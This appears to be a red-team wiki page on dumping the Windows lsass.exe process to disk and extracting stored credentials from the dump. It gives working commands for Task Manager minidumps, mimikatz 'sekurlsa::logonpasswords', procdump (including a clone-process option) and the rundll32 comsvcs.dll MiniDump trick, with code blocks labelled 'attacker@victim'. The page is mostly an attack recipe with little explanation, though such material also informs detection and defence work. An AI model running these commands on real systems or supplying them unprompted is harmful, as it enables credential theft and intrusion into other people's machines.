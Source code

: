 # Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28226%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}

